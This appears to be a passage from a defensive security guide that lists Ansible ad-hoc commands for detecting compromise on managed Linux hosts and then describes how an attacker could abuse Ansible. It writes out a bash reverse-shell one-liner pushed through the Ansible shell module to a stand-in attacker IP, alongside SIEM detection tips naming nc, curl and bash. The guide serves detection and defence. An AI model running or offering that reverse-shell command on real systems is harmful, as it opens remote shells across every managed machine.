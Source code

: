    - **Check system logs for unusual messages:**
     ```bash
     ansible all -m command -a "tail -n 50 /var/log/syslog"
     ```
     Look for entries that indicate unusual system behavior.

   - **Monitor for core dumps (which can indicate crashes or exploited processes):**
     ```bash
     ansible all -m command -a "ls /var/lib/systemd/coredump/"
     ```
     Investigate any recent core dumps, especially if they relate to critical services.

### 7. **Audit Installed Packages**
   - **List recently installed packages:**
     ```bash
     ansible all -m command -a "rpm -qa --last | head -n 10"
     ```
     Verify that all recent installations are authorized.

   - **Check for packages with unusual names:**
```bash
	ansible all -m command -a "rpm -qa | grep -E '^(.+[^a-zA-Z0-9]+.+|.{1,3})$'"
```
     Look for package names that don't follow standard naming conventions.

### 8. **Inspect Environment Variables**
   - **Check for suspicious environment variables:**
     ```bash
     ansible all -m command -a "env"
     ```
     Look for environment variables that could be used for malicious purposes (e.g., LD_PRELOAD, LD_LIBRARY_PATH).

These commands can help you identify signs of potential malicious activity by checking for anomalies in user activity, processes, network connections, files, and system logs. Regularly running these checks, especially in a security operations context, can help in early detection and response to incidents.


An attacker with access to Ansible could potentially use it to gain shell access to other machines, especially if they have control over the Ansible playbooks or ad-hoc commands. Below are some examples of how this could be done and how you might detect such activity with a SIEM:

### 1. **Using Ad-Hoc Commands for Shell Access**
   An attacker could use Ansible ad-hoc commands to run arbitrary shell commands on remote machines, potentially creating backdoors or retrieving sensitive information.

   - **Example:**
     ```bash
     ansible all -m shell -a "bash -i >& /dev/tcp/attacker_ip/4444 0>&1"
     ```
     This command initiates a reverse shell to the attacker's machine.

   - **SIEM Detection:**
     - **Alert on ad-hoc usage of the `shell` or `command` modules**: Track the use of these modules with suspicious command patterns, particularly those involving networking commands like `nc`, `curl`, or `bash`.
     - **Monitor for outbound connections**: Identify unusual outbound connections to untrusted IP addresses, especially those made by Ansible-managed hosts.
